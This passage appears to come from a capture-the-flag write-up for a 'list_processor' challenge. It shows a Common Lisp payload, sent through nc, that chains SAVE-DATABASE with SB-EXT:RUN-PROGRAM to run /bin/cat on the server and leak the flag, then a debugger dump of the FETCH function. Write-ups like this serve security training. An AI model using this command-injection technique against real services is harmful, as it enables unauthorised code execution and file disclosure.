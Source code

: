 (RULES:SAVE-DATABASE "/tmp/lol") (RULES:SAVE-DATABASE (SB-EXT:RUN-PROGRAM "/bin/cat" (list "/tmp/lol") :output *standard-output*))
```


We try it with
```
~/list_processor $ echo '(RULES:SAVE-DATABASE "/tmp/lol") (RULES:SAVE-DATABASE (SB-EXT:RUN-PROGRAM "/bin/cat" (list "/tmp/lol") :output *standard-output*))' | nc list-processor.chujowyc.tf 4002
                   
Welcome at our server :3
T

(((FLAG CHCTF (#\LATIN_CAPITAL_LETTER_I #\LOW_LINE #\LATIN_SMALL_LETTER_J #\LATIN_SMALL_LETTER_U #\LATIN_SMALL_LETTER_S #\LATIN_SMALL_LETTER_T #\LOW_LINE #\LATIN_SMALL_LETTER_R #\LATIN_SMALL_LETTER_O #\LATIN_SMALL_LETTER_B #\LATIN_SMALL_LETTER_B #\DIGIT_THREE #\LATIN_SMALL_LETTER_D #\LOW_LINE #\LATIN_SMALL_LETTER_A #\LOW_LINE #\LATIN_SMALL_LETTER_S #\LATIN_SMALL_LETTER_T #\DIGIT_THREE #\DIGIT_THREE #\DIGIT_SEVEN #\LOW_LINE #\LATIN_SMALL_LETTER_B #\DIGIT_FOUR #\LATIN_SMALL_LETTER_N #\LATIN_SMALL_LETTER_K #\LOW_LINE #\DIGIT_FOUR #\DIGIT_SIX #\DIGIT_THREE #\DIGIT_TWO #\DIGIT_SEVEN #\DIGIT_EIGHT #\DIGIT_FOUR #\DIGIT_SIX #\DIGIT_THREE #\DIGIT_TWO #\DIGIT_SEVEN #\DIGIT_EIGHT #\DIGIT_FOUR #\DIGIT_FIVE #\DIGIT_THREE #\DIGIT_FOUR #\DIGIT_TWO #\DIGIT_SEVEN #\DIGIT_EIGHT))) #.(SB-IMPL::%STUFF-HASH-TABLE (MAKE-HASH-TABLE :TEST (QUOTE EQL) :SIZE (QUOTE 16) :REHASH-SIZE (QUOTE 1.5) :REHASH-THRESHOLD (QUOTE 1.0) :WEAKNESS (QUOTE NIL)) (QUOTE ((FLAG (FLAG CHCTF (#\LATIN_CAPITAL_LETTER_I #\LOW_LINE #\LATIN_SMALL_LETTER_J #\LATIN_SMALL_LETTER_U #\LATIN_SMALL_LETTER_S #\LATIN_SMALL_LETTER_T #\LOW_LINE #\LATIN_SMALL_LETTER_R #\LATIN_SMALL_LETTER_O #\LATIN_SMALL_LETTER_B #\LATIN_SMALL_LETTER_B #\DIGIT_THREE #\LATIN_SMALL_LETTER_D #\LOW_LINE #\LATIN_SMALL_LETTER_A #\LOW_LINE #\LATIN_SMALL_LETTER_S #\LATIN_SMALL_LETTER_T #\DIGIT_THREE #\DIGIT_THREE #\DIGIT_SEVEN #\LOW_LINE #\LATIN_SMALL_LETTER_B #\DIGIT_FOUR #\LATIN_SMALL_LETTER_N #\LATIN_SMALL_LETTER_K #\LOW_LINE #\DIGIT_FOUR #\DIGIT_SIX #\DIGIT_THREE #\DIGIT_TWO #\DIGIT_SEVEN #\DIGIT_EIGHT #\DIGIT_FOUR #\DIGIT_SIX #\DIGIT_THREE #\DIGIT_TWO #\DIGIT_SEVEN #\DIGIT_EIGHT #\DIGIT_FOUR #\DIGIT_FIVE #\DIGIT_THREE #\DIGIT_FOUR #\DIGIT_TWO #\DIGIT_SEVEN #\DIGIT_EIGHT))))))) We caught a condition: The value
                         #<SB-IMPL::PROCESS :EXITED 0>
                       is not of type
                         (OR (VECTOR CHARACTER) (VECTOR NIL) BASE-STRING
                             PATHNAME STREAM)

                       when binding SB-KERNEL:FILENAME
```
Just need to decode the output.


If we wanted to make something more aligned with the expectations of the task, we could look into function `FETCH`:

```
ldb> p 0x1000736baf 
$100=	  0x1000736baf: other pointer
	    header: 0x000000d9: simple vector
	  length = 17
	    0: 0x00000000: 0
$8=	    1: 0x10005524df: STORE
$112=	    2: 0x1000914e6f: DEFRULE
$113=	    3: 0x1000914e9f: SAVE-DATABASE
	    4: 0x00000000: 0
	    5: 0x00000000: 0
	    6: 0x00000000: 0
	    7: 0x00000000: 0
$114=	    8: 0x1000914ecf: =>
	    9: 0x00000000: 0
	    10: 0x00000000: 0
$115=	    11: 0x1000914eff: EXTRACT
	    12: 0x00000000: 0
$116=	    13: 0x1000914f2f: FETCH
$117=	    14: 0x1000914f5f: LOAD-DATABASE
	    15: 0x00000000: 0
$118=	    16: 0x1000914f8f: FETCH-BINDINGS